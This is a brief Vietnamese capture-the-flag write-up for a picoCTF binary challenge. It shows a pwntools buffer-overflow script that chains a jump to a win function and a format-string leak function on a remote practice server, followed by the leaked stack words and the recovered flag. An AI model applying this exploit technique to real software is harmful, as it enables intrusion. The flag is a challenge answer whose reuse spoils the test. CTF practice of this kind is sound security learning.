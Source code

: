 # Ý tưởng
ta thấy hàm UnderConstruction() có dùng FMT để leak, và hàm win để cat flag
ở đây ta sẽ nhảy vào hàm win trước và sau đó nhảy vào under để leak dữ liệu trong stack
```python3
from pwn import *
r = remote('saturn.picoctf.net', 51893)
elf = ELF("./vuln")
payload = b"a"*14 + p32(elf.symbols['win']) + p32(elf.symbols['UnderConstruction'])
r.sendlineafter("Give me a string that gets you the flag\n", payload)
r.interactive()
# picoCTF{Cle4N_uP_M3m0rY_8d5089b9}
```
chạy netcat ta nhận được
```
aaaaaaaaaaaaaa\xa0\x9d\x04 \x9e\x04
User information : 0x80c9a04 0x804007d 0x39623938 0x30356438 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970
```
do ở đây ta dùng tool để swap  
![image](https://user-images.githubusercontent.com/111769169/224530440-17144a8b-2564-4c2e-9e7e-8f95dca34c8b.png)

